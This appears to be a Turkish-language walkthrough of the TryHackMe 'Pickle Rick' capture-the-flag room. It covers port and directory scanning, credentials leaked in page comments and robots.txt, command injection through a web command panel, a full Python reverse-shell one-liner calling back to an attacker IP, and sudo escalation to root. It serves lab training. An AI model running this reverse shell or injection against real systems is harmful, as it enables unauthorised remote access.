


<h1>Pickle Rick Walktrought</h1> 


TryHackMe platformunda yer alan bu makinenin çözüm yolu adım adım gösterilmektedir.
Makineye <a href="https://tryhackme.com/r/room/picklerick">buradan</a> ulaşabilirsiniz

<h3>1-Bilgi Toplama</h3>
<p>
<h4>Rustscan:</h4>
Makineyi platform üzerinden başlattıktan sonra verilen makine 
IP sine açık portların keşfedilmesi için için RustScan aracı kullanılmıştır.
22 ve 80 portlarının açık olduğu görüldü.
</p>
<br>
<div style="text-align: center;">

</div>
<br>
<p> <h3>Nmap:</h3>
    Açık olan portlar belirlendikten sonra Nmap ile portlarda çalışan servisleri, servislerin sürümlerini ve default scriptler çalıştırılarak makine hakkında daha detaylı bilgi toplanıldı.
    <br>
       
```nmap  -p 22,80 -sC -Pn -sV -T5  10.10.183.248```

<br>
<div style="text-align: center;">

</div>
<br>
</p>

| flag          | Anlamı            |
| ------------- |:-------------:|
|-p     | Sadece belirtilen portlarda tarama yapmak için kullanılır.|
| -sC   | Portlarda çalışan servisleri için tanımlanmış Scriptleri çalıştırarak bilgi toplar.|
| -sV   | Hedefteki servislerin sürümlerini tespit edilmesini sağlar |
| -Pn   | Hedefe ICMP ping gönderilmemesi için kullanılır.|
| -T5   | Tarama hızını belirler ‘5’ en hızlı seviyedir.|


<p>
<h3>Dirsearch:</h3>
Web servisindeki gizli dizin ve dosyaları bulunması için dizin taraması yapıldı. Dizin taraması için ‘dirsearch’ aracı kullanıldı ve aracın default wordlist kullanıldı. 

<br>
    <div style="text-align: center;">
    
    </div>
<br>

</p>
<p>

Dizin taraması yapılırken browserdan hedef makinenin yayınlamış olduğu web adresine gidildi ve sayfa kaynağı kodları incelendiğinde yorum satırlarına alınmış bir kullanıcı adı olduğu görüldü. 

<br>
    <div style="text-align: center;">
    
    </div>
<br>

</p>
<p>
    Yapılan dizin taramasında bulunan ‘/robots.txt dizini kontrol edildi ve orada bulunan yorumlarda bulunan kullanıcı adının şifresi olabileceği düşünülüp  kopyalandı. 
    <br>
    <div style="text-align: center;">
    
    </div>
<br>
</p>
<p>
    Taramada bulunan /login.php adresi kontrol edildiğinde bir login işlemi gerçekleştirilebilecek sayfa olduğu görüldü.
    Diğer sayfalardan kullanıcı adı ve şifre olduğu düşünülen bilgiler login formuna doldurulup giriş işlemi gerçekleşti.
    
<br>
    <div style="text-align: center;">
    
    </div>
<br>

</p>

<p> <h3>Komut Enjeksiyonu</h3>
Giriş yapıldıktan sonra açılan ekranda komut paneli ile karşılaşıldı. Komut panelinde bazı komutlar denenerek bir kısıtlamaya (validation) sahip olduğu görüldü. cat komutu engellenen komutlardan biriydi. 
<br>
    
 
  
<br>
</p>


<p>
Makinede Python olup olmadığı kontrol edildikten sonra Python ile komut çalıştırma denediğinde pythonın kullanabildiği görüldü. Reverse Shell almak için PentestMonkey den python ile çalıştırılan reverse Shell komutu alınıp atak makinesinin IP si ile düzenlenerek komut çalıştırıldı. 

``` locate python ```
<br>
``` Bu kodda Makine IP ve Port kısımlarını kendinize göre düzenlemelisiniz
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("Makine IP", PORT));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);' ```
<br>
    <div style="text-align:center;">
    
    <br>
    <br>
    <br>
    
    </div>
<br>
</p>
<h3>2-Reverse Shell</h3>
<p> <h5>Birinci Bayrak</h5>
    Alınan Shell bağlantısı ile ilk bulunulan dizin dahil olmak üzere bazı dizinleri inceleyip bayrakları ele geçirilmeye çalışıldı. İlk bayrak /var/www/html altında olduğu görüldü.
<br>
    <div style="text-align: center;">
    
    </div>
<br>
</p>
<p><h4>İkinci Bayrak</h4>
    İkinci bayrak ise makinede gezinilirken  /home/rick altında olduğu görüldü.
<br>
    <div style="text-align: center;">
    
    </div>
<br>
</p>
<h3>3-Yetki Yükseltme</h3>
<p><h5>Üçüncü Bayrak</h5>
    Yetki yükseltmek için süper user olarak hangi araçları çalıştırılabileceğini görmek için “sudo -l” komutu çalıştırıldı ve bütün komutların sudo ile çalıştırılabileceği görüldü. “sudo su” komutu ile root kullanıcısına yetki yükseltidi ve üçüncü bayrak /root dizini altında olduğu görüldü.   
<br>
    <div style="text-align: center;">
    
    </div>
<br>
</p>


